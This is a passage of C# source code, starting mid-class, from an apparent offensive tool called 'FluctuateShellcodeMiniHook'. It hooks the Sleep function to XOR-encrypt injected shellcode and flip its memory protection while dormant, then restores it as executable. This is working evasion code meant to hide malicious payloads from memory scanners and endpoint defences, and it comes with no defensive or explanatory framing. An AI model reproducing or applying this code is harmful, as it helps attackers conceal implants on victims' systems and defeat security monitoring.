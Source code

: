 ```cs
        shellcodeLength = shellcodeLen;
        xorKey = GenerateXorKey();
    }

    ~FluctuateShellcodeMiniHook()
    {
        hookEngine.DisableHooks();
    }

    public void EnableHook()
    {
        hookEngine.EnableHooks();
    }

    public void DisableHook()
    {
        hookEngine.DisableHooks();
    }

    void SleepDetour(uint dwMilliseconds)
    {
        ProtectMemory(fluctuateWith);
        XorMemory();

        sleepOrig(dwMilliseconds);

        XorMemory();
        ProtectMemory(DI.Data.Win32.WinNT.PAGE_EXECUTE_READ);
    }

    void ProtectMemory(uint newProtect)
    {
        if (Win32.VirtualProtect(shellcodeAddress, (uint)shellcodeLength, newProtect, out _))
            Console.WriteLine("(FluctuateShellcodeMiniHook) [DEBUG] Re-protecting at address " + string.Format("{0:X}", shellcodeAddress.ToInt64()) + $" to {newProtect}");
        else
            throw new Exception("(FluctuateShellcodeMiniHook) [-] VirtualProtect");
    }

    void XorMemory()
    {
        byte[] data = new byte[shellcodeLength];
        Marshal.Copy(shellcodeAddress, data, 0, shellcodeLength);
        for (var i = 0; i < data.Length; i++) data[i] ^= xorKey[i];
        Marshal.Copy(data, 0, shellcodeAddress, data.Length);
    }

    byte[] GenerateXorKey()
    {
        Random rnd = new Random();
        byte[] xorKey = new byte[shellcodeLength];
        rnd.NextBytes(xorKey);
        return xorKey;
    }
}
```


[//]: # (2022-06-17)
